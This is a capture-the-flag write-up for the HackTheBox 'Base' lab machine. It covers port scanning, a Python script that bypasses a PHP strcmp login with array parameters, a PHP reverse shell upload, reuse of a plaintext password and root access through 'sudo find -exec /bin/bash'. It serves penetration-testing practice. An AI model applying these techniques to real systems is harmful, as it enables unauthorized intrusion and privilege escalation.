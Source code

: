 ```yaml
---
description: Base box from HackTheBox write up.
---
```


# Base

## Nmap scan

Let's start with a classic `nmap` scan:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -v --min-rate 1000 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-21 19:21 EDT
Initiating Ping Scan at 19:21
Scanning <MACHINE_IP> [4 ports]
Completed Ping Scan at 19:21, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:21
Completed Parallel DNS resolution of 1 host. at 19:21, 0.00s elapsed
Initiating SYN Stealth Scan at 19:21
Scanning <MACHINE_IP> [65535 ports]
Discovered open port 22/tcp on <MACHINE_IP>
Discovered open port 80/tcp on <MACHINE_IP>
Completed SYN Stealth Scan at 19:21, 16.52s elapsed (65535 total ports)
Nmap scan report for <MACHINE_IP>
Host is up (0.051s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
           Raw packets sent: 65539 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sC -sV <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-21 19:23 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
```

A web server and SSH open. I think we can take a look to the website first.

## Port 80

The page contains a home page and a login page in `http://<MACHINE_IP>/login/login.php`. I decided to use `gobuster` and looks like directory listing is enabled and we can just check the files under `http://<MACHINE_IP>/login/`. Also `gobuster` reported `http://<MACHINE_IP>/_uploaded` and an upload page at `http://<MACHINE_IP>/upload.php` but to access it we need to login first.

The interesting file in `http://<MACHINE_IP>/login/` is `login.php.swp`. This kind of file is used to avoid losing data while editing a document if for some reason the editor crash or whatever. Using `strings` we can get the code that performs the login process in the `login.php` file (More or less, I had to fix it a bit):

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username , $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```

Looking a bit how this works, looks like it is using `strcmp`. If we pass an array as argument instead of a string the `strcmp` function will just return 0, I wrote a little Python script to perform the login bypass and print the session cookie we can use to open the page in the browser:

```python
#! /usr/bin/env python3

import requests

url = 'http://<MACHINE_IP>/login/login.php'
data = {'username[]': ('user'), 'password[]': ('pass')}

session = requests.Session()
session.post(url, data=data)
print(session.cookies.get_dict())
```

Using the cookie the script prints, we can access the upload functionality of the page.

### Foothold

We can just upload a PHP reverse shell and access it in the `/_uploaded/` directory. Now we are in the box!

## In the box as www-data

Well the first thing I wanted to check was the `config.php` file of the web server:

```bash
www-data@base:/var/www/html/login$ cat config.php 
<?php
$username = "admin";
$password = "thisisagoodpassword";
```
After all, a brute force attack could have worked... anyway, looks like there is an user called `john` in the box, using the password we just found we can login as him.

## From john to root

I decided to drop the reverse shell and use a regular SSH session for stability reasons. First of all, the user flag is under `/home/john/user.txt`.

The user is not in the `sudo` group but check this:

```bash
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

```

He can execute the command `find` with `sudo`. We can abuse this with:

```bash
john@base:~$ sudo find . -exec /bin/bash \; -quit
root@base:~# 
```

And we are root! The flag is as usual under `/root/root.txt`.
